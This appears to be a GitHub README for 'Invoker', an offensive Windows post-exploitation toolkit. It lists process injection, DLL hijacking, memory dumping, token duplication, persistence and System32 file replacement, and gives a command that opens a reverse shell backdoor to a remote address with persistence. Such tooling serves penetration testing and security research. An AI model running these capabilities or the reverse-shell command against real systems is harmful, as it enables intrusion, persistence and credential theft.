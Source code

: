 ## Invoker Library

Features:

* invoke the system shells,
* ~~make direct system calls,~~
* use Windows Management Instrumentation (WMI),
* connect to a remote host,
* terminate a running process,
* run a new process,
* dump the memory of a process,
* tamper with the executable image of a process,
* inject bytecode into a process,
* inject DLL into a process,
* list loaded DLLs of a process,
* invoke DLL hijacking,
* install a hook procedure,
* enable access token privileges,
* duplicate the access token of a process and run a new process,
* download a file,
* add/edit a registry key,
* schedule a task,
* list unquoted service paths and start, stop, or restart a service,
* replace multiple System32 files.

Check the Invoker library [here](https://github.com/ivan-sincek/invoker/blob/master/src/Invoker/Invoker/lib/invoker/invoker.cpp). Feel free to use it!

---

Some features may require administrative privilege.

Some features may not work on Windows XP and earlier because of some specific access rights and control flags used.

## How to Run

Run Invoker_x86.exe (32-bit) or Invoker_x64.exe (64-bit).

To automate the reverse shell backdoor while adding persistence, run the following command:

```fundamental
Invoker_x64.exe 192.168.8.5:9000
```

32-bit Invoker can:

* make direct system calls,
* dump the memory of a 32-bit process,
* tamper with and inject the executable image of a 32-bit process into 32-bit process,
* tamper with and inject the executable image of a 64-bit process into 64-bit process,
* inject 32-bit bytecode into a 32-bit process,
* inject 32-bit DLL into a 32-bit process,
* list loaded DLLs of a 32-bit process,
* install a hook procedure from a 32-bit DLL.
